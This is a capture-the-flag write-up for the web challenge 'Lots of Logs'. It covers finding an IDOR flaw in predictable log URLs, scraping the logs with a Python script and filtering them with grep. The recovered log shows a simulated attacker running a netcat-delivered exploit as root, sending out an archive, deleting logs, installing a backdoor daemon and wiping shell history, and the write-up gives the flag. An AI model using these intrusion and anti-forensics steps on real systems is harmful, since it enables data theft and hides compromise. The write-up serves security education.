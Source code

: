 # Lots of Logs
**Category**: Web

**Level**: Easy

**Points**: 175

**Description**:
```markdown
As a professional logger, I made an extensive logger that logs all of the logs I log to the blog I blog so that no log goes unlogged. I post some logs to the log catalog on my log blog.

https://logs.sdc.tf/
```

## Writeup
![](website.png)

My teammate first started on this problem and did the initial recon on the website. On the front page were a few different posts about logs with links to raw logs. The links followed a predictable pattern - `https://logs.sdc.tf/logs/2022/3/9/Wed.log`. All you needed to do was guess a year, month, day, and day of the week to get a log. This is what's known as an IDOR vulnerability, or [Insecure Direct Object Reference vulnerability](https://portswigger.net/web-security/access-control/idor). This is what happens when a user-controlled parameter can give information about other objects than what they are intended to have access to. Imagine if a bank created accounts sequentially. If your account number is `123`, then you know that someone has account number `124`, and you can use that against them. Randomizing important information like that can help prevent IDOR vulnerabilities. 

A typical log looks like this (except around 500 lines):

```
Welcome to LoggerOS 11.02.3 (GNU/Linux 4.7.8-23-generic)

john@logger:~# ./logger

Wed 03/09 07:20:31 START : ************************** STARTING LOGGING **************************
Wed 03/09 07:20:31 LOG   : 0 logs logged!
Wed 03/09 07:21:25 LOG   : 13 logs logged!
Wed 03/09 07:22:05 PROC  : Processing 13 logs! 
Wed 03/09 07:22:45 LOG   : 13 logs logged!
Wed 03/09 07:23:31 LOG   : 8 logs logged!
Wed 03/09 07:24:23 LOG   : 11 logs logged!
Wed 03/09 07:25:08 SELL  : Sold 13 logs for $96.00 each! 
...
Wed 03/09 01:08:58 LOG   : 6 logs logged!
Wed 03/09 01:09:53 LOG   : 12 logs logged!
Wed 03/09 01:10:44 STOP  : ************************** STOPPING LOGGING **************************
Wed 03/09 01:10:44 FIN   : Sold 2352 logs for a total of $259272 profit!
```

My teammate (@phishfood) wrote a script that would take a date, format according to the pattern used for the URL, and download a log. It would then repeat until it didn't find any more logs. He used [this link](https://www.adamsmith.haus/python/answers/how-to-iterate-through-a-range-of-dates-in-python) and [this link](https://docs.python.org/3/library/datetime.html#strftime-and-strptime-behavior) to figure out how to iterate through and format the dates. This is what it looked like:

```python
import datetime, requests
​
start_date = datetime.date(2016, 10, 29)
end_date = datetime.date(2022, 4, 20)
delta = datetime.timedelta(days=1)
​
while start_date <= end_date:
    month = int(start_date.strftime('%m'))
    day = int(start_date.strftime('%d'))
    path = start_date.strftime('%Y/' + str(month) +'/' + str(day) + '/%a.log')
    print(requests.get('https://logs.sdc.tf/logs/' + path).text)
    start_date += delta
```

Once the script was running, he sent a zip folder of 1996 log files that each had hundreds of lines in them and said "If the flag is in here somewhere, that will suck" (yes, we tried `grep` first and got nothing). This is when I hopped on, got caught up with what he had done, and thought to myself, "It's time to abuse some regex". I wanted to know if ANY log was out of the ordinary; knowing CTF organizers, it could be after or before a regular line on some random date. So, I wrote some regular expressions that checked for every single "normal" line and filtered those out. It was a monster of a command but totally worked:

```bash
cat all.log | grep -v "^Welcome to LoggerOS 11.02.3 (GNU/Linux 4.7.8-23-generic)$" | grep -v "^john@logger:~# ./logger$" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} LOG   : [0-9]* logs logged\!$" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} PROC  : Processing [0-9]* logs\!( [0-9]* logs still need processing)?" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} START : \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\* STARTING LOGGING \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*" | grep . | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} PROF  : Profitted .[0-9]*\.[0-9]{2}! \(.[0-9]*\.[0-9]{2} total\)" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} SELL  : Sold [0-9]* logs for .[0-9]*\.[0-9]{2} each\!( There are still [0-9]* unsold logs\!)?" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} STOP  : \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\* STOPPING LOGGING \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*" | grep -vE "^[A-Z][a-z]{2} [0-9]{2}/[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2} FIN   : Sold [0-9]* logs for a total of .[0-9]* profit!"
```

After taking an hour or so to make this command and filter out everything normal, I was left with some very interesting logs:

```
john@logger:~# nc -l 1337 > exploit
john@logger:~# chmod +x exploit
john@logger:~# ./exploit
# whoami
root
# ls
exploit  logs  site
# ls logs
2016  2017  2018
# tar -cf data.tar.gz ~/logs
tar: Removing leading `/' from member names
tar: /home/john/data.tar.gz: file is the archive; not dumped
# nc -l 1337 < data.tar.gz
# rm -rf /home/john/logs/2018/6/10 /home/john/logs/2018/6/11 /home/john/logs/2018/6/12
# rm data.tar.gz
# mkdir /lib/network
# nc -l 1337 > /lib/network/daemon
# chmod +x /lib/network/daemon
# /lib/network/daemon
Success... running on port 1338
# nc logger.sdc.tf 1338
Pass: 82d192aa35a6298997e9456cb3a0b5dd92e4d6411c56af2169bed167b53f38d
ls /home/john
exploit  logs  site
^C
# rm exploit
# echo "" > .bash_history
# echo "" > ~/.bash_history
# exit
```

At this point, it was just a matter of repeating the commands above. I connected to `logger.sdc.tf` on port 1338 and typed in the password, to which I was greeted with the flag!

![](image.png)

**Flag** - `sdctf{b3tr4y3d_by_th3_l0gs_8a4dfd}`